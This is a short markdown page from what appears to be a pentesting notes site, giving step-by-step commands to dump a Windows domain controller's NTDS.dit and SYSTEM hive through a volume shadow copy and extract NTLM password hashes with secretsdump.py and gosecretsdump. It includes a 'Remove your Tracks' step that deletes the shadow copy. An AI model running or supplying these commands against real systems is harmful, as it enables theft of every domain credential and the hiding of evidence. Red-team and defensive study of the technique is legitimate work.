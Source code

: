 ```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## NTDS.dit Dump&Extract

On Domain Controller - create snapshot with `vssadmin.exe`.

### Step 1 - Create ShadowCopy

```plain
PS C:\> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
```

### Step 2 - Copy NTDS.dit and SYSTEM from ShadowCopy

NTDS:

```plain
PS C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\windows\ntds\ntds.dit c:\ntds.dit
```

SYSTEM:

```plain
PS C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\Windows\system32\config\system c:\system
```

Or use `reg save`

```plain
reg SAVE HKLM\SYSTEM c:\SYSTEM
```

You can also use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html) if you prefer a GUI.

{{%resources fa_icon_class="far fa-file-archive" pattern=".*(zip)"/%}}

### Step 3 - Remove your Tracks

```plain
PS C:\> vssadmin delete shadows /shadow={3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
```

## Extract hashes

It can happen that [secretsdump.py]({{< ref"secretsdump-py" %}}) keeps looping and throwing out hashes. In this case, or maybe even preferably, use [Gosecretsdump]({{< ref "gosecretsdump" %}}).

### Secretsdump.py

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

### Gosecretsdump

```plain
./gosecretsdump -system SYSTEM -ntds NTDS.DIT -history -status -out hashes.log
```

### Example NTDS/SYSTEM

Example `NTDS.dit` and `SYSTEM` files zipped below.

{{%resources fa_icon_class="far fa-file" pattern=".*(NTDS.DIT-SYSTEM)"/%}}

## URL List

- [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
